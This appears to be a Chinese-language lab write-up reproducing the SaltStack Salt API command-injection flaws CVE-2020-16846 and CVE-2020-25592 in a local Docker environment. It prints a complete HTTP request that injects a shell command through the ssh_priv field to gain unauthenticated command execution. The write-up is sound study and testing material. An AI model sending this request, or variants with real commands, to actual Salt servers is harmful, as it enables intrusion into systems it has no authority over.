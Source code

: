 # SaltStack 命令注入漏洞 CVE-2020-16846

## 漏洞描述

SaltStack 是基于 Python 开发的一套C/S架构配置管理工具。2020年11月SaltStack官方披露了CVE-2020-16846和CVE-2020-25592两个漏洞，其中CVE-2020-25592允许任意用户调用SSH模块，CVE-2020-16846允许用户执行任意命令。组合这两个漏洞，将可以使未授权的攻击者通过Salt API执行任意命令。

参考链接：

- https://mp.weixin.qq.com/s/R8qw_lWizGyeJS0jOcYXag

## 环境搭建

Vulhub执行如下命令启动一个SaltStack Master服务：

```
docker-compose up -d
```

环境启动后，将会在本地监听如下端口：

- 4505/4506 这是SaltStack Master与minions通信的端口
- 8000 这是Salt的API端口，**需要通过https访问**
- 2222 这是容器内部的SSH服务器监听的端口

## 漏洞复现

向`https://your-ip:8000/run`发送如下数据包：

```
POST /run HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/x-yaml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 87

token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=aaa|touch%20/tmp/awesome_poc%3b
```

![image-20220228201318654](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202282013907.png)

通过`ssh_priv`位置注入命令`touch /tmp/awesome_poc`，进入容器可见已执行成功：

![image-20220228201334846](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202282013086.png)


